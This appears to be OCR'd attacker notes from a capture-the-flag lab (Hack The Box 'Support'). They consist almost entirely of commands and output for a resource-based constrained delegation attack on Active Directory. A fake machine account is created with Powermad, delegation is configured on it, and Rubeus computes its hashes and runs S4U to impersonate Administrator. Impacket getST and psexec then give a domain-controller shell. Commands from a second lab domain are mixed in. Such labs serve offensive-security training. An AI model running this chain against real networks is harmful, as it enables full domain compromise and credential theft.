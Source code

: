 upload /home/kali/Downloads/Rubeus.exe r.exe

./r.exe hash /domain:ignite.local /user:fake01 /password:123456

./r.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:host/dc1.support.htb /altservice:cifs /domain:support.htb /ptt

./r.exe hash /domain:support.htb /user:fake01$ /password:123456


/usr/share/doc/python3-impacket/examples/getST.py support.htb/fake01 -dc-ip 10.10.11.174 -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B

Import-Module ./Powermad.ps1

Set-Variable -Name "FakePC" -Value "FAKE02"


New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')


./r.exe hash /password:123456 /user:FAKE02$ /domain:support.htb

*Evil-WinRM* PS C:\Users\support\Documents> ./r.exe hash /password:123456 /user:FAKE02$ /domain:support.htb
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Calculate Password Hash(es)

[*] Input password             : 123456
[*] Input username             : FAKE02$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake02.support.htb
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : 29A342E1A6FBAA56E45EEC45FBEA41F4
[*]       aes256_cts_hmac_sha1 : 32D144CD5F7A6766CE06D5432F2EBE18BAC8D768F2A4D1FE0D56B9CFCFEC7AA6
[*]       des_cbc_md5          : BC2F3DF4574CCB04


/usr/share/doc/python3-impacket/examples/getST.py support.htb/FAKE02 -dc-ip 10.10.11.174 -impersonate administrator -spn http/dc.support.htb -aesKey 32D144CD5F7A6766CE06D5432F2EBE18BAC8D768F2A4D1FE0D56B9CFCFEC7AA6

find / -name smbexec* 2>/dev/null

sudo /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass support.htb/administrator@dc1.support.htb -dc-ip 10.10.11.174 -target-ip 10.10.11.174



psexec.py -k -no-pass ignite.local/administrator@dc1.ignite.local -dc-ip 192.168.1.2 -target-ip 192.168.1.2



